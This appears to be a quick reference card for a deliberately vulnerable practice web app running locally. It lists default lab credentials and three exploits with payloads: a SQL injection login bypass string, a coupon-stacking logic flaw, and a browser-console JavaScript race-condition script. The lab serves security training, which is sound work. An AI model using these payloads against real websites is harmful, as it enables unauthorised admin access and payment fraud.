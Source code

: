 # 🎯 VULNERABLE LAB - QUICK REFERENCE CARD

## 🚀 INSTANT ACCESS
```bash
# Start the lab
cd "/Users/roshanajith/Documents/Coding/Cursor/Web Dev/Dynamic/Vulnerable-Lab"
source venv_new/bin/activate
python app.py

# URLs
http://127.0.0.1:5002        # Local access
http://192.168.0.172:5002    # Network access
```

## 🔑 DEFAULT CREDENTIALS
| User | Username | Password |
|------|----------|----------|
| Admin | admin | admin123 |
| User 1 | john_doe | password123 |
| User 2 | jane_smith | password456 |

## ⚡ INSTANT EXPLOITS (30 seconds or less)

### 1. SQL Injection → Admin Access (10 seconds)
```
URL: http://127.0.0.1:5002/login
Username: admin' OR '1'='1' --
Password: anything
Result: Instant admin access
```

### 2. Business Logic → Free Items (15 seconds)
```bash
1. Login → Add Gaming Laptop ($1299.99) to cart
2. Apply coupon: WELCOME5
3. Result: $50 off PER ITEM = FREE laptop + $750 credit!
```

### 3. Race Condition → Massive Discounts (30 seconds)
```javascript
// Browser console (F12)
Promise.all(Array(20).fill().map(() => 
    fetch('/apply_coupon', {
        method: 'POST',
        body: 'coupon_code=SAVE10',
        headers: {'Content-Type': 'application/x-www-form-urlencoded'},
        credentials: 'same-origin'
    })
)).then(() => location.reload());
// Result: 20x discounts stacked = Items PAY YOU money!
```

